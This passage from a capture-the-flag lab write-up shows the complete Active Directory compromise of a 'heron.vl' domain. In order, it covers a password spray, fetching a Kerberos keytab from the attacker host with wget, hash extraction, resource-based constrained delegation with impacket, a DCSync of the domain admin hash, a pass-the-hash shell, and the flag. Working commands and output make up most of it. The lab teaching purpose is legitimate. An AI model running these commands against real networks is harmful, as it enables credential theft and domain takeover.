[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Adam.Harper:ayDMWV929N9wAiB4 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\Adam.Matthews:ayDMWV929N9wAiB4 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [-] heron.vl\adm_hoka:ayDMWV929N9wAiB4 STATUS_LOGON_FAILURE 
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.10.253.117:445  ...  OK
SMB         10.10.253.117   445    MUCDC            [+] heron.vl\adm_prju:ayDMWV929N9wAiB4 
                                                                               
```

## Abusing Resource Based Delegation

Checking for paths for gaining domain, this user is in `Admins_T1` group which has `WriteAccountRestrictions` acl on domain controller, which essentially is similar to GenericWrite or WriteProperty that can allow to edit `msDS-AllowedToActOnBehalfOfOtherIdentity` adding a machine account for which we have password for abusing resource based delegation (RBCD)


We can do this attack in two ways, since we have the NThash of frajmp, we can append that account in dc’s property or we can utilize a user account without having any SPN by replacing the password with it’s TGT session and combining S4U2Self and U2U protocols to abuse but this method is quite destructive and must be avoided unless there’s a test account

Going with the machine account approach, by first editing the property


**Kerberos Keytab Exfiltration**

A web server was established on the attacker-controlled machine to facilitate data transfer. From the victim environment, a request was made to retrieve a file named `krb5.keytab` from the attacker's host. The successful transfer of a Kerberos keytab file indicates the potential exfiltration of service account authentication material, which can be used to request Kerberos tickets and perform Kerberos-based attacks without requiring the account's plaintext password.

```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

we get
```bash
 wget http://10.10.253.118:80/krb5.keytab
```

**Kerberos Keytab Analysis and Hash Extraction**

The exfiltrated `krb5.keytab` file was successfully parsed and decrypted. The analysis revealed that the keytab belongs to the computer account `FRAJMP$` within the `HERON.VL` realm. The extraction process recovered multiple associated password hashes, including the NTLM hash `6f55b3b443ef192c804b2ae98e8254f7`, an AES-256 hash, and an AES-128 hash. Possession of these hashes enables various attack vectors, including Silver Ticket attacks against the host FRAJMP or Pass-the-Hash techniques for authentication.

```bash
 python3  keytabextract.py krb5.keytab  

```

```output
RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HERON.VL
        SERVICE PRINCIPAL : FRAJMP$/
        NTLM HASH : 6f55b3b443ef192c804b2ae98e8254f7
        AES-256 HASH : 7be44e62e24ba5f4a5024c185ade0cd3056b600bb9c69f11da3050dd586130e7
        AES-128 HASH : dcaaea0cdc4475eee9bf78e6a6cbd0cd
                                                      

```

**Resource-Based Constrained Delegation Exploitation**

Using the privileged credentials for `adm_prju`, a Resource-Based Constrained Delegation attack was successfully executed. The attack modified the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the domain controller computer account `MUCDC$` to grant the computer account `FRAJMP$` the permission to impersonate users on `MUCDC$`. This configuration change establishes a delegation pathway that can be leveraged to obtain a service ticket for any user to the domain controller, effectively granting administrative access.

```bash
proxychains4 impacket-rbcd -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -dc-ip '10.10.253.117' -action 'write' 'heron.vl'/'adm_prju':'ayDMWV929N9wAiB4'

```

**Service Ticket Forgery via RBCD**

Leveraging the established Resource-Based Constrained Delegation configuration and the NTLM hash for `FRAJMP$`, a Service Ticket was successfully forged. The ticket impersonates the user `_admin` for the `cifs/mucdc.heron.vl` service. The forged Kerberos ticket was saved to the filesystem, enabling authentication to the domain controller's file sharing service with the privileges of the impersonated `_admin` account.

```bash
proxychains4 impacket-getST -spn 'cifs/mucdc.heron.vl' -impersonate '_admin' 'heron.vl/FRAJMP$' -hashes :6f55b3b443ef192c804b2ae98e8254f7
```

```bash
proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] DLL init: proxychains-ng 4.17
Impacket v0.13.0.dev0+20250528.4535.5b338613 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  HERON.VL:88  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  HERON.VL:88  ...  OK
[*] Impersonating _admin
[*] Requesting S4U2self
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  heron.vl:88  ...  OK
[*] Requesting S4U2Proxy
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  heron.vl:88  ...  OK
[*] Saving ticket in _admin@cifs_mucdc.heron.vl@HERON.VL.ccache


```

 The Kerberos ticket has been exported to the environment variable `KRB5CCNAME`. This configures the system to use the forged ticket for `_admin` to the `cifs/mucdc.heron.vl` service when performing Kerberos authentication. You may now proceed with commands that will leverage this ticket for authenticated access to the domain controller.
 
```bash
export KRB5CCNAME=_admin@cifs_mucdc.heron.vl@HERON.VL.ccache
```

**Domain Administrator Credential Extraction**

Using the forged Kerberos ticket for authentication, the DCSync attack was successfully performed to extract the NTLM password hash for the `_admin` account. The recovered hash is `3998cdd28f164fa95983caf1ec603938`. Additionally, the associated Kerberos keys in AES256, AES128, and DES formats were retrieved. Possession of the `_admin` NTLM hash confirms full compromise of a domain administrator account, granting complete control over the Heron.vl domain

```bash
proxychains4 secretsdump.py -k -no-pass MUCDC.heron.vl -just-dc-user _admin  
```

```output
admin:500:aad3b435b51404eeaad3b435b51404ee:3998cdd28f164fa95983caf1ec603938:::
[*] Kerberos keys grabbed
_admin:aes256-cts-hmac-sha1-96:11eb06e80afac3c41005135642cef809ae54caadd903d0b010162805f1f2e555
_admin:aes128-cts-hmac-sha1-96:ebb8a7919d6da294fc41295c94c8172f
_admin:des-cbc-md5:1f0e61d03e837fa1
```

**Final Compromise and Flag Retrieval**


```bash
proxychains4 impacket-wmiexec _admin@10.10.253.117 -hashes aad3b435b51404eeaad3b435b51404ee:3998cdd28f164fa95983caf1ec603938
```

```output
C:\users\Administrator\Desktop>type root.txt
VL{504bbfae9cade6a9f7c2b74c12ab1a01}
C:\users\Administrator\Desktop>


```
